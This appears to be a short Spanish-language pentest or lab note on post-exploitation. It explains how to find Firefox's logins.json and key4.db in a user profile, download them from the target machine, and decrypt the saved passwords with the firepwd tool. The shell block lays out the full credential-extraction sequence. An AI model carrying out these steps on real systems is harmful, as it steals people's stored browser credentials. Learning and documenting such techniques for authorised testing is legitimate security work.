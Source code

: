 
# CONTEXTO
Deberemos de ver en alguna parte de la máquina rastros del firefox. Tendremos que entrar a nuestro directorio personal de usuario y acceder a AppData\Roaming\Mozilla\Firefox\Profiles\ Ahora en una de las dos carpetas deberemos de ver un logins.json y un key4.db.

# ESCALADA
```shell
#NOS CLONAMOS EL REPOSITORIO
git clone https://github.com/lclevy/firepwd
cd firepwd
pip3 install -r requirements.txt --break-system-packages

#NOS DESCARGAMOS EL RECURSO
download logins.json logins.json
download key4.db key4.db

#MOVEMOS LOS RECURSOS
cp ../key4.db .
cp ../logins.json .

#EJECUTAMOS LA HERRAMIENTA
python3 firepwd.py
```